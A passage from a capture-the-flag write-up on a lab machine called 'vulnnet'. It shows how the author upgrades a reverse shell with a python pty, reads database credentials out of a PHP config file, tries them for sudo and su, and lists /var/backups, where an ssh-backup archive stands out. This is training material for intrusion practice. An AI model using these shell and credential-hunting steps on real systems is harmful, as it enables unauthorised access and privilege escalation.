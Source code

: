 I stabilized the shell and started looking around the server. 

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm

CTRL-z
stty raw -echo;fg
```

I looked in the web site and found the database configuration.
```bash
ww-data@vulnnet:/$ cd /var/www/html/
www-data@vulnnet:/var/www/html$ vi includes/dbconnect.php 
```

It contained the credentials to connect to the database. 
```php
$BDTYPE = 'mysql';^M
//Database Host^M
$DBHOST = '';^M
//Database Name^M
$DBNAME = 'VulnNet';^M
//Database Username^M
$DBUSER = 'admin';^M
//Database Password^M
$DBPASS = 'PASSWORD';^M
```

I tried the password to run `sudo` as www-data, and to su to the user server-management and root. It failed. I then connected to the database and looked around. I went through all the tables, but did not find anything. I looked at the other files of the application, still nothing.

Then I looked around the server. The `/var/backups` folder add a file that belongs to server-management. 

```bash
www-data@vulnnet:/var/www/html$ ls -la /var/backups/
total 2348
drwxr-xr-x  2 root              root                 4096 Jun  6 13:26 .
drwxr-xr-x 14 root              root                 4096 Jan 23 14:20 ..
-rw-r--r--  1 root              root                51200 Jan 23 14:07 alternatives.tar.0
-rw-r--r--  1 root              root                13896 Jan 23 16:00 apt.extended_states.0
-rw-r--r--  1 root              root                   11 Jan 23 13:39 dpkg.arch.0
-rw-r--r--  1 root              root                   43 Jan 23 13:39 dpkg.arch.1.gz
-rw-r--r--  1 root              root                   43 Jan 23 13:39 dpkg.arch.2.gz
-rw-r--r--  1 root              root                  280 Jan 23 14:01 dpkg.diversions.0
-rw-r--r--  1 root              root                  160 Jan 23 14:01 dpkg.diversions.1.gz
-rw-r--r--  1 root              root                  160 Jan 23 14:01 dpkg.diversions.2.gz
-rw-r--r--  1 root              root                  265 Jan 23 14:20 dpkg.statoverride.0
-rw-r--r--  1 root              root                  195 Jan 23 14:20 dpkg.statoverride.1.gz
-rw-r--r--  1 root              root                  179 Jan 23 13:53 dpkg.statoverride.2.gz
-rw-r--r--  1 root              root              1402383 Jan 25 23:27 dpkg.status.0
-rw-r--r--  1 root              root               386206 Jan 23 16:00 dpkg.status.1.gz
-rw-r--r--  1 root              root               366251 Jan 23 13:58 dpkg.status.2.gz
-rw-------  1 root              root                  857 Jan 23 22:10 group.bak
-rw-------  1 root              shadow                712 Jan 23 22:10 gshadow.bak
-rw-------  1 root              root                 1831 Jan 23 16:00 passwd.bak
-rw-------  1 root              shadow               1118 Jan 23 22:19 shadow.bak
-rw-rw-r--  1 server-management server-management    1484 Jan 24 14:08 ssh-backup.tar.gz
-rw-r--r--  1 root              root                49338 Jan 25 23:28 vulnnet-Monday.tgz
-rw-r--r--  1 root              root                49338 Jun  6 16:46 vulnnet-Sunday.tgz
```

